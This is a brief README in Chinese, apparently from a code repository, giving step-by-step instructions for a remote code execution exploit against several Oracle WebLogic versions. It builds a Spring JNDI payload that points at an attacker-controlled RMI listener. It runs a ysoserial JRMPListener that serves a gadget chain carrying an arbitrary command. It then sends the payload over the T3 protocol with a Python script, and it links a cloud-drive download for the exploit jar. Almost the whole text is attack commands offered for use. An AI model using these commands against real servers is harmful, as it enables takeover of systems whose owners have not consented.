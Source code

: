 ## 使用说明

##### Step 1：生成载荷
```
java -jar weblogic-spring-jndi-10.3.6.0.jar rmi://192.168.174.129:1099/Exploit > Exploit.txt

#weblogic-spring-jndi-12.2.1.3.jar for weblogic:
12.2.1.3
    
#weblogic-spring-jndi-10.3.6.0.jar for weblogic:
10.3.6.0
12.2.1.0
12.1.3.0
12.2.1.1  

weblogic-spring-jndi的下载地址：
链接：https://pan.baidu.com/s/1ZlloYHH3NiDcYNewVifKDQ 
提取码：ezcn 

```
##### Step 2：设置JRMPListener监听
```
#格式说明
java -cp ysoserial.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]

#演示示例
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 Jdk7u21 "calc"
```


##### Step 3:发送T3请求到Weblogic
```
python weblogic.py 192.168.174.144 7001 Exploit.txt
```



